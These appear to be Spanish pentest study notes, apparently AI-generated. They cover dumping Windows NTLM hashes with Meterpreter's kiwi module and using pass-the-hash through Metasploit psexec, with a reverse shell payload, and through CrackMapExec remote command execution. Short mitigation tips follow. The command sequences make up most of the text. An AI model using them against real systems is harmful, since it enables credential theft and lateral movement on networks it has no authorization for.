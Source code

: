 # Apuntes de Seguridad Windows: BadBlue y Pass-the-Hash (PtH)

---

## BadBlue y extracción de hashes con Meterpreter

### 1. ¿Qué es BadBlue?

- BadBlue es un software servidor web popular en los 2000s, conocido por vulnerabilidades que permiten acceso remoto.
- Algunas máquinas Windows comprometidas pueden tener BadBlue instalado o servicios web vulnerables que pueden ser explotados.

---

### 2. Uso de Meterpreter para obtener hashes en sistemas vulnerables

Una vez que tienes acceso a la máquina víctima mediante un exploit (por ejemplo, EternalBlue o cualquier otro), sigue estos pasos para extraer hashes usando Meterpreter y el módulo `kiwi` (una implementación de Mimikatz):

---

#### a) Listar procesos con `pgrep`

En la sesión Meterpreter, para listar procesos y obtener el PID de uno que te interese (normalmente `lsass.exe` o algún proceso estable):

```bash
pgrep -f lsass.exe
```

O simplemente para ver procesos:

```bash
ps
```

---

#### b) Migrar a un proceso estable

Con el PID obtenido, migra la sesión Meterpreter a ese proceso para evitar que la sesión se cierre si el proceso original termina:

```bash
migrate <PID>
```

Ejemplo:

```bash
migrate 456
```

---

#### c) Cargar el módulo kiwi

```bash
load kiwi
```

Kiwi permite ejecutar comandos similares a Mimikatz para extraer credenciales.

---

#### d) Extraer hashes con `lsa_dump_sam`

```bash
lsa_dump_sam
```

Esto mostrará los hashes NTLM y LM de los usuarios locales almacenados en la máquina.

---

### 3. Consideraciones

- Se requiere que la sesión Meterpreter tenga privilegios elevados para cargar kiwi y extraer hashes.
- La migración es importante para estabilidad y evitar detección.
- Usar esta técnica solo en entornos autorizados.

---

## Pass-the-Hash (PtH) con Metasploit y CrackMapExec

### 1. ¿Qué es Pass-the-Hash?

- Técnica que permite autenticarse en sistemas Windows sin necesidad de conocer la contraseña en texto claro.
- Se usa el **hash NTLM** de la contraseña para acceder a servicios SMB, RDP, etc.
- Permite movimientos laterales en redes comprometidas.
- Explota la forma en que Windows gestiona la autenticación.

---

### 2. Requisitos previos

- Tener el **hash NTLM** válido de un usuario.
- Acceso a la red o al sistema objetivo.
- Herramientas que soporten autenticación mediante hash (como Metasploit o CrackMapExec).

---

### 3. Uso de Pass-the-Hash en Metasploit (`msfconsole`)

#### a) Cargar módulo para sesión SMB con hash

```bash
use exploit/windows/smb/psexec
```

#### b) Configurar opciones:

```bash
set RHOSTS <IP_objetivo>
set SMBUser <usuario>
set SMBPass <hash_NTLM>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
```

- Nota: En `SMBPass` se pone el **hash NTLM** precedido por `aad3b435b51404eeaad3b435b51404ee:` si no tienes el hash LM (usualmente se pone solo el hash NTLM con ese prefijo).

#### c) Ejecutar el exploit

```bash
run
```

Si es exitoso, tendrás una sesión Meterpreter sin conocer la contraseña en texto plano.

---

### 4. Uso de Pass-the-Hash con CrackMapExec

#### a) Comando básico:

```bash
crackmapexec smb <IP_objetivo> -u <usuario> -H <hash_NTLM>
```

#### b) Ejemplo:

```bash
crackmapexec smb 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5d41402abc4b2a76b9719d911017c592
```

#### c) Opcional: Enumerar recursos compartidos o ejecutar comandos con hash

```bash
crackmapexec smb 192.168.1.100 -u Administrator -H <hash> --shares
```

```bash
crackmapexec smb 192.168.1.100 -u Administrator -H <hash> -x 'ipconfig'
```

---

### 5. Mitigación

- Usar autenticación con Kerberos en lugar de NTLM cuando sea posible.
- Aplicar políticas de restricción de uso de hash.
- Monitorizar uso inusual de hashes.
- Actualizar sistemas y aplicar parches.

---

¿Quieres que te prepare ejemplos prácticos o comandos para estas técnicas?
